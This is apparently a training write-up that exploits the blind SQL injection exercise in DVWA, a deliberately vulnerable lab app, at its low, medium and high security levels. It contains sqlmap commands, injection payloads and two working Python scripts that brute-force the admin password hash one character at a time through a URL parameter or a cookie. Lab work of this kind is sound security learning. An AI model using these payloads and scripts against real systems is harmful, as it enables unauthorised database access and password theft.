

# DVWA - SQL Blind Injection

## Description

**Vulnerability:** SQL Blind Injection    
**Impact:** Levaraging SQL Blind Injection to get the data that we aren't supposed to know.

---

## LOW Security Level
The SQL Blind Injection is basically harder for us to retreive our desired data when comparing to normal SQL Injection. You can see this code from the source:

```php
$exists = false;
if ($result !== false) {
    try {
        $exists = (mysqli_num_rows( $result ) > 0);
    } catch(Exception $e) {
        $exists = false;
    }
}
```

And whatever we give `id` param it just have 2 results:


or:


For example: we doesn't know any about the databases we can use `sqlmap` in order to get available databases:
```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=..." --dbs
```

You can get the databases:



Also, we can test by using this payload `1' AND user = 'admin' #` we received `User ID exists in the database.` and now we can brute-force the password.

I create an exploit Python script, it is simple, the script will brute-force each character of the MD5 hash password, if character exists in the password the website will return `User ID exists in the database.` until we get the full hash password.

```python
import requests
import string

url = 'http://localhost/DVWA/vulnerabilities/sqli_blind/'
cookies = {
    'security': 'low',
    'PHPSESSID': '<YOUR_PHPSESSID>'
}

SUCCESS_TEXT = "User ID exists in the database."

charset = string.ascii_lowercase + string.digits
received_hash = ""

print("Starting blind SQL injection attack (brute-force admin password)...")

for i in range(1, 33):
    for char in charset:        
        payload = f"1' AND SUBSTRING((SELECT password FROM users WHERE user = 'admin'), {i}, 1) = '{char}' #"

        params = {
            'id': payload,
            'Submit': 'Submit'
        }

        try:
            response = requests.get(url, params=params, cookies=cookies)

            if SUCCESS_TEXT in response.text:
                received_hash += char
                print(f"received_hash: {received_hash}")
                break

        except requests.exceptions.RequestException as e:
            print(f"\n[!] An error occurred: {e}")

print(f"\n\nFull Hash: {received_hash}")
```


Decrypt that hash MD5 password with CrackStation.net


## MEDIUM Security Level
This MEDIUM level source code is a little different:
```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

The `user_id` now takes number instead of string and also in the UI we cannot write our script, there is just a select. We can use `sqlmap` like LOW Security Level or use this payload in Burp Suite character by character:
```
1 AND SUBSTRING((SELECT database()), 1, 1) = 'd'
```

## HIGH Security Level
The HIGH Security Level use `id` input is cookie instead of param so i have modified my used code in LOW Security Level:

```python
import requests
import string

url = 'http://localhost/DVWA/vulnerabilities/sqli_blind/'
cookies = {
    'security': 'high',
    'PHPSESSID': '<YOUR_PHPSESSID>',
    'id': ''
}

SUCCESS_TEXT = "User ID exists in the database."

charset = string.ascii_lowercase + string.digits
received_hash = ""

print("Starting blind SQL injection attack (brute-force admin password)...")

for i in range(1, 33):
    for char in charset:        
        payload = f"1' AND password LIKE '{received_hash + char}%"

        cookies['id'] = payload

        try:
            response = requests.get(url, cookies=cookies)

            print(f'{received_hash + char}')

            if SUCCESS_TEXT in response.text:
                received_hash += char
                print(f"received_hash: {received_hash}")
                break

        except requests.exceptions.RequestException as e:
            print(f"\n[!] An error occurred: {e}")

print(f"\n\nFull Hash: {received_hash}")
```

But remember that the code will run slow since the new source code has this logic:
```php
if( rand( 0, 5 ) == 3 ) {
    sleep( rand( 2, 4 ) );
}

// User wasn't found, so the page wasn't!
header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

// Feedback for end user
echo '<pre>User ID is MISSING from the database.</pre>';
```

So when the character is incorrect it may `sleep` so it is slower.


## Resources
- https://en.wikipedia.org/wiki/SQL_injection
- https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- https://owasp.org/www-community/attacks/Blind_SQL_Injection
- https://bobby-tables.com/
